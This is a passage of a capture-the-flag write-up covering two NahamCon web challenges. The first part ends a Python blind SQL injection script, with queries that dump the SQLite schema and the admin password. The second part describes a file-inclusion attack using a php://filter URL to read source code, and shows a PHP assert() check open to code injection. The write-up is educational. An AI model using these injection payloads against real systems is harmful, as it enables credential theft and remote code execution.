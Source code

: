 ```
               
        if (hi == 0): break
        passwd += chr(int(temp))
        print("Result [{}]: {}".format(table,passwd))
        idx += 1

    return passwd
   

# blind("tbl_name","FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'")
# blind("group_concat(sql)","FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='user'")
# Result [FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='user']: CREATE TABLE user (
#         id INTEGER NOT NULL,
#         username VARCHAR(40),
#         password VARCHAR(40),
#         PRIMARY
# blind("group_concat(ua)","FROM visit where post_id=4")
blind("group_concat(password)","FROM user where username='admin'")


```

This script help me to perform the SQL Injection with boolean check every time the injection fired, and using binary search algorithm to make the search efficient, at the end of the day Found the password of admin account and just login to get the flag.

---
# [Medium] Asserted - 301 points (283 Solves)

### Intro

```
Author: dead#4282 & @JohnHammond#6971

Time to hit the gym! Assert all your energy! Err, wait, is the saying "exert" all your energy? I don't know...

The flag is in /flag.txt.
```
### Solve

The website was Vulnerable to Local File Inclusion, iwas able to read the source code of the application and found out that they we're using assert function to check if the str of `$file` contains .., well we can abuse this since we control part of the `$file` we can escape the strpos can execute any function that we want.

```
http://challenge.nahamcon.com:31066/index.php?page=php://filter/convert.base64-encode/resource=index

<?php

if (isset($_GET['page'])) {
  $page = $_GET['page'];
  $file = $page . ".php";

  // Saving ourselves from any kind of hackings and all
  assert("strpos('$file', '..') === false") or die("HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE");
  
} else {
```